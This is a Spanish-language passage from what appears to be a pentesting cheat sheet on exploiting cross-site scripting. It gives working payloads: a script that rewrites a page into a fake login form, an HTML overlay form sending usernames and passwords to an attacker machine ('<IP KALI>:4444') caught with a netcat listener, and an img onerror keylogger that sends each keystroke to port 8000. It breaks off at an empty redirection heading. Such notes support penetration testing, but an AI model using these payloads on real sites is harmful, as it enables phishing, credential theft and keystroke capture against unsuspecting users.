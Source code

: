 ### ROBO DE CREDENCIALES

podemos modificar el contenido de una pagina para agregarle un contenido propio, en este caso se esta modificando la pagina de login colocandole nuestro propio formulario:

```javascript
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
</script>
```

O injectar este payload en una entrada de datos:

```html
<div style="position: absolute; left: 0px; top: 0px;
background-color:#fddacd;width: 1900px; height:
1300px;"><h2>Please login to continue!!</h2>
<br><form name="login"
action="http://<IP KALI>:4444/login.htm">
<table><tr><td>Username:</td><td><input type="text"
name="username"/></td></tr><tr><td>Password:</td>
<td><input type="password" name="password"/></td></tr><tr>
<td colspan=2 align=center><input type="submit"
value="Login"/></td></tr>
</table></form>
```

Con netcat nos colocamos a la escucha en el puerto 4444:

```bash
nc -lvnp 4444
```

Y obtendremos las credenciales si se loguea:

```bash
...
GET /login.htm?username=admin&password=admin123! HTTP/1.1
...
```


[Funcion replaceState()](https://developer.mozilla.org/en-US/docs/Web/API/History/replaceState)

### JAVASCRIPT KEYLOGGING

Podemos capturar las pulsaciones del teclado (JavaScript Keylogger)

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://<IP KALI>:8000?k="+String.fromCharCode(e.which))},this.remove();'>

```

### REDIRECCIONAMIENTO 
